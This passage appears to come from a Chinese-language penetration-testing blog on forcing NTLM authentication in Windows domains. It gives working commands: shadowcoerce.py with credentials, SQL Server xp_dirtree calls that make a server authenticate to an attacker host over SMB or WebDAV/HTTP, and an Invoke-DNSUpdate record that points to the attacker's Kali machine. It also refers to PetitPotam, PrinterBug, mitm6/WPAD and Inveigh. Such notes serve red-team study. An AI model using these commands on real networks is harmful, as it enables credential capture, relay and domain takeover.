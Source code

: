 ```shell
python3 shadowcoerce.py -d "adc.com" -u "mssql" -p "song@2020" 10.10.10.123 10.10.10.15
```


#### Sql Server

```bash
exec master.dbo.xp_dirtree '\\10.10.10.123\test'

```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220216172606-1f7ugw9.png)

目标机器安装webclient时，可通过指定端口触发http类型认证。

```bash
exec master.dbo.xp_dirtree '\\kali@80/test' --http

https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484864&idx=1&sn=94260cb4a4e643764f4cfd3565ae799b
xp_dirtree '\\hostname@SSL\test' --ssl 443
xp_dirtree '\\hostname@SSL@1234\test' --ssl port 1234
xp_dirtree '\\hostname@1234\test' --http
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220217174751-z98aqxm.png)

### HTTP

#### WEBDAV

在开启`webclient`（需要安装`webdav`，开启`webclient`）时，可结合`PetitPotam` 、`PinterBug`发出HTTP的认证

[安装webdav与开启webclient参考链接](https://theitbros.com/installing-webdav-client-windows-server-2016/](https:/theitbros.com/installing-webdav-client-windows-server-2016/)

```bash
外发HTTP类型认证需要在可信域中，所以需要在域内添加一条DNS记录。或者端口转发域内机器

Invoke-DNSUpdate -DNSType A -DNSName kali -DNSData 10.10.10.15
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211203153907-ba1w2rr.png)


还有A-TEAM大哥们提到的WEBDAV XXE

https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#41-webdav-xxe

#### WPAD配合DHCPv6

[https://daiker.gitbook.io/windows-protocol/ntlm-pian/5#0x09-wpad-he-mitm6](https://daiker.gitbook.io/windows-protocol/ntlm-pian/5#0x09-wpad-he-mitm6)

https://github.com/Kevin-Robertson/Inveigh
